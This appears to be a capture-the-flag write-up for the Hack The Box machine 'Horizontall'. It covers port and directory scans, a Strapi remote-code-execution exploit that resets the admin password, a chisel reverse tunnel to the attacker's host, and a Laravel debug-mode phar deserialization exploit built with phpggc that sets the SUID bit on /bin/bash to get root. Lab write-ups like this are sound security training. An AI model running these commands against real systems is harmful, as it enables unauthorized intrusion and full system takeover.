 # Horizontall

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.84.249
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-30 00:38 EDT
Nmap scan report for 10.129.84.249
Host is up (0.030s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Add `horizontall.htb` to our `/etc/hosts` file to view the website.

### Horizontall Subdomain

This is a typical corporate website advertising a product:

<figure><img src="../../../.gitbook/assets/image (484).png" alt=""><figcaption></figcaption></figure>

Viewing the page source, we can see a small interesting bit here:

{% code overflow="wrap" %}
```markup
<body><noscript><strong>We're sorry but horizontall doesn't work properly without JavaScript enabled. Please enable it to continue.</strong></noscript><div id="app"></div><script src="/js/chunk-vendors.0e02b89e.js"></script><script src="/js/app.c68eb462.js"></script></body>
```
{% endcode %}

I don't usually come across this, and it appears to be intentionally left there by the creator because the message is customised. We can try to view the JS code that's within this, and perhaps we would find something new. I searched for the box name, and found a new subdomain within the `app.js` file:

<figure><img src="../../../.gitbook/assets/image (51) (6) (1).png" alt=""><figcaption></figcaption></figure>

Interesting! We can add that to our `hosts` file and view it.&#x20;

### API Reviews

This is what we see when we visit that page:

<figure><img src="../../../.gitbook/assets/image (356).png" alt=""><figcaption></figcaption></figure>

When we head to the `/reviews` directory, we would see some JSON

<figure><img src="../../../.gitbook/assets/image (257).png" alt=""><figcaption></figcaption></figure>

I ran `gobuster` to scan the directories present on this website and check if we can find anything new.&#x20;

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://api-prod.horizontall.htb -t 100
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://api-prod.horizontall.htb
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/04/30 00:47:53 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 200) [Size: 854]
/users                (Status: 403) [Size: 60]
/reviews              (Status: 200) [Size: 507]
```

Viewing `/admin` would bringus to a `strapi` login page:

<figure><img src="../../../.gitbook/assets/image (63) (4).png" alt=""><figcaption></figcaption></figure>

Googling for exploits pertaining to `strapi` shows this:

{% embed url="https://www.exploit-db.com/exploits/50239" %}

Running the script would spawn a "terminal" for us and also reset the administrator password.

<figure><img src="../../../.gitbook/assets/image (350).png" alt=""><figcaption></figcaption></figure>

Great! We have RCE. Now, we can easily get a reverse shell.

<figure><img src="../../../.gitbook/assets/image (485).png" alt=""><figcaption></figcaption></figure>

Grab the user flag within the `developer` user home directory.

## Privilege Escalation

### Port Forwarding

Within the user's home directory, there are some file regarding a project:

```
strapi@horizontall:/home/developer$ ls
composer-setup.php  myproject  user.txt
```

Since there is a PHP file, there might be another application running on another port. We can run `netstat` to check this:

```
strapi@horizontall:/home/developer$ netstat -tulpn
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:1337          0.0.0.0:*               LISTEN      1786/node /usr/bin/ 
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           - 
```

We can spawn another shell to port forward this using `chisel`. Since the `strapi` has a home directory, adding an `authorized_keys` file is pretty easy. Then, I downloaded `chisel` via `wget` and ran these commands:

```bash
# on kali
chisel server -p 5555 --reverse
# on victim
chisel client 10.10.14.2:5555 R:8000:127.0.0.1:8000
```

Then we can visit the page!&#x20;

### Laravel Debug RCE

The website just has the default Laravel page:

<figure><img src="../../../.gitbook/assets/image (230).png" alt=""><figcaption></figcaption></figure>

We can run a directory scan to see what's available.

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://localhost:8000 -t 100
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://localhost:8000
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/04/30 01:27:23 Starting gobuster in directory enumeration mode
===============================================================
/profiles             (Status: 500) [Size: 616204]
```

Interesting. Viewing the `/profiles` leads to a 500 error and brings us to a debug page.

<figure><img src="../../../.gitbook/assets/image (66) (4).png" alt=""><figcaption></figcaption></figure>

This application enabled the Debug mode and also had Laravel v8 running. It appears to be vulnerable to an older exploit that allows RCE through Laravel Debug mode.

{% embed url="https://github.com/ambionics/laravel-exploits" %}

This exploit uses `phpggc` to create a malicious serialised PHP file that would allow us to execute commands. So, we need to download `phpggc` to the machine and run the following command:

```bash
php -d phar.readonly=0 ./phpggc --phar phar -f -o id.phar monolog/rce1 system id
```

The first part would allow us to create a `phar` file that executes `id` on the system. When we run the exploit, this is what we would get:

```
$ python3 laravel.py http://127.0.0.1:8000 id.phar
+ Log file: /home/developer/myproject/storage/logs/laravel.log
+ Logs cleared
+ Successfully converted to PHAR !
+ Phar deserialized
--------------------------
uid=0(root) gid=0(root) groups=0(root)
--------------------------
+ Logs cleared
```

Works! Now we just need to specify a longer command. In this case, I decided to make `/bin/bash` an SUID binary. We just need to run these commands again

```bash
php -d phar.readonly=0 ./phpggc --phar phar -f -o suid.phar --fast-destruct monolog/rce1 system 'chmod u+s /bin/bash'
python3 laravel.py http://127.0.0.1:8000 suid.phar
```

Then we can easily get a root shell on the machine.

```
strapi@horizontall:~$ /bin/bash -p
bash-4.4# id
uid=1001(strapi) gid=1001(strapi) euid=0(root) groups=1001(strapi)
```

Rooted!
